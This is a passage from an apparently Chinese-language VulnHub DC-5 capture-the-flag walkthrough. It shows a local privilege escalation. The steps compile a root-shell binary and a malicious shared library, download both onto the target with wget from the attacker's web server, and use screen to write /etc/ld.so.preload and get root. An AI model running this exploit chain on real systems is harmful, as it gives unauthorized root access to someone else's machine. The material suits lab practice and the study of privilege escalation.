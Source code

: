 ```bash
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机
```
python -m SimpleHTTPServer 8080
```

```
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```

运行 poc
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/12.png)
